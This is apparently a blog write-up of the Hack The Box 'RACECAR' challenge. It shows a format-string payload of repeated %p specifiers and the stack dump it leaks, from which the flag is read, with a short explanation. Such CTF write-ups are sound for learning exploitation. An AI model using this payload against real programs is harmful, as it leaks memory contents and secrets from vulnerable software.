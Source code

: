 ```yaml
---
layout: post
title: Hack the Box rev HTB_RACECAR 
image: /assets/img/HTB-Logo.png
date:   2022-12-12 11:15:01
tags:
- rev
description: Basic rev challenge
categories:
- Hack The Box
---
```


HTB_RACECAR
Format string exploit challenge


```
 %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p                      
```          

```
The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
0x585581c00x1700x56585d850x90x350x260x10x20x5658696c0x585581c00x585583400x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f 0x8fc59e000xf7f7b3fc0x56588f8c0xffd3dbd80x565864410x10xffd3dc840xffd3dc8c0x8fc59e000xffd3dbf0(nil)(nil)0xf7dbef210xf7f7b0000xf7f7b000(nil)0xf7dbef210x10xffd3dc840xffd3dc8c0xffd3dc140x1 
```
![](/assets/img/2022-09-15-22-14-41.png)
The printf allows us to input whatever format string we want so we can dumb content off the stack. The flag is on the stack and we leak it.

![](/assets/img/2022-09-15-22-13-47.png)
The last dot is garbage left on the stack